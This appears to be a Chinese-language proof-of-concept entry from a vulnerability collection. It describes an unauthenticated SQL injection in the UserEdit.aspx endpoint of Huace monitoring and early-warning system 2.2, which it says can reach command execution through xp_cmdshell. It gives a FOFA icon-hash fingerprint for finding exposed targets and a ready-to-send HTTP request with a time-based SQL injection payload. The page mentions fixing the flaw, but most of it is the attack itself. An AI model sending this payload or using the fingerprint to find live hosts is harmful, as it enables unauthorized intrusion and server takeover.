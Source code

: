## 华测监测预警系统接口UserEdit.aspx存在SQL注入

华测监测预警系统2.2 UserEdit.aspx 接口处存在SQL注入漏洞，未经身份验证的远程攻击者可利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。

## fofa

```
icon_hash="-628229493"
```

## poc

```
POST /Web/SysManage/UserEdit.aspx?&ID=1';WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close

```

![image-20240621183452726](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406211834786.png)